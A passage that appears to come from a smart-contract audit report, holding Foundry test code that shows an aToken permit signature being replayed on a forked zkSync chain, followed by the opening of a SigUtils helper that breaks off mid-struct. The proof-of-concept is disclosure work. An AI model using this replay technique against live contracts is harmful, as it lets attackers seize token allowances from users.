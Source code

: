 ```
            permit.spender,
            permit.value,
            permit.deadline,
            v,
            r,
            s
        );

      
        console2.log("Allowance: ", IERC20(address(atoken)).allowance(address(0x328809Bc894f92807417D2dAD6b7C998c1aFdac6), address(0x1D96F2f6BeF1202E4Ce1Ff6Dad0c2CB002861d3e)));

        cheats.stopPrank();
    }

    function test_2_Atoken_deployed_with_same_contract_address_on_different_chain_or_Zksync_Chain_forked()
        public
    {
        cheats.createSelectFork("anvil");

        cheats.startPrank(attacker);

        atoken.permit(
            permit.owner,
            permit.spender,
            permit.value,
            permit.deadline,
            v,
            r,
            s
        );


        assertEq(block.chainid, 324);
        console2.log("Allowance: ", IERC20(address(atoken)).allowance(address(0x328809Bc894f92807417D2dAD6b7C998c1aFdac6), address(0x1D96F2f6BeF1202E4Ce1Ff6Dad0c2CB002861d3e)));
        console2.log("Singature Replayed Successfully on different chain");

        cheats.stopPrank();
    }
}

```

#### SigUtils.sol

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.12;

contract SigUtils {
    bytes32 internal DOMAIN_SEPARATOR;

    constructor(bytes32 _DOMAIN_SEPARATOR) {
        DOMAIN_SEPARATOR = _DOMAIN_SEPARATOR;
    }

    // keccak256("Permit(address owner,address spender,uint256 value,uint256 nonce,uint256 deadline)");
    bytes32 public constant PERMIT_TYPEHASH =
        0x6e71edae12b1b97f4d1f60370fef10105fa2faae0126114a169c64845d6126c9;

    struct Permit {
```